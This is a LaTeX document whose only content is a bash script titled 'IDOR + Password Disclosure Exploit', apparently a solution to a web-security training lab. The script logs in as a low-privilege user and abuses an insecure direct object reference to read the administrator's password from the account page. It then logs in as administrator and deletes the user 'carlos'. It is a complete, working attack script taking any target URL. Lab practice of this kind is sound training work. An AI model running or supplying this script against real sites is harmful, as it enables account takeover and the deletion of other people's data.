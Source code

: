 \documentclass[11pt,letterpaper]{article}
\begin{document}
\par\noindent\begin{minipage}{\linewidth}
\captionsetup{hypcap=false}%
\end{minipage}\par\nopagebreak
\begin{verbatim}
#!/bin/bash
# IDOR + Password Disclosure Exploit
# Usage: ./exploit.sh https://target.example.com

BASE_URL="$1"

if [ -z "$BASE_URL" ]; then
    echo "Usage: $0 <BASE_URL>"
    exit 1
fi

echo "[*] Target: $BASE_URL"

# Phase 1: Get CSRF and login as wiener
echo "[*] Phase 1: Logging in as wiener..."
CSRF=$(curl -s -c cookies.txt "$BASE_URL/login" | \
       grep -oP 'name="csrf"\s+value="\K[^"]+')

curl -s -b cookies.txt -c cookies.txt \
    -d "csrf=$CSRF&username=wiener&password=peter" \
    "$BASE_URL/login" > /dev/null

echo "[+] Logged in"

# Phase 2: IDOR - Access admin account
echo "[*] Phase 2: Exploiting IDOR..."
ADMIN_PAGE=$(curl -s -b cookies.txt "$BASE_URL/my-account?id=administrator")

if echo "$ADMIN_PAGE" | grep -qi "administrator"; then
    echo "[+] Accessed administrator account!"
else
    echo "[-] IDOR failed"
    exit 1
fi

# Extract password
ADMIN_PASSWORD=$(echo "$ADMIN_PAGE" | \
    grep -oP 'name="password"[^>]*value="\K[^"]+' | head -1)

if [ -z "$ADMIN_PASSWORD" ]; then
    ADMIN_PASSWORD=$(echo "$ADMIN_PAGE" | \
        grep -oP 'value="[^"]+"\s*[^>]*name="password"' | \
        grep -oP 'value="\K[^"]+')
fi

echo "[+] Admin password: $ADMIN_PASSWORD"

# Phase 3: Login as admin
echo "[*] Phase 3: Logging in as administrator..."
rm -f cookies.txt
CSRF=$(curl -s -c cookies.txt "$BASE_URL/login" | \
       grep -oP 'name="csrf"\s+value="\K[^"]+')

curl -s -b cookies.txt -c cookies.txt \
    -d "csrf=$CSRF&username=administrator&password=$ADMIN_PASSWORD" \
    "$BASE_URL/login" > /dev/null

echo "[+] Logged in as administrator"

# Phase 4: Delete carlos
echo "[*] Phase 4: Deleting carlos..."
curl -s -b cookies.txt "$BASE_URL/admin/delete?username=carlos" > /dev/null

echo "[+] Carlos deleted!"

# Cleanup
rm -f cookies.txt
echo "[+] Exploit complete!"
\end{verbatim}
\par
\end{document}
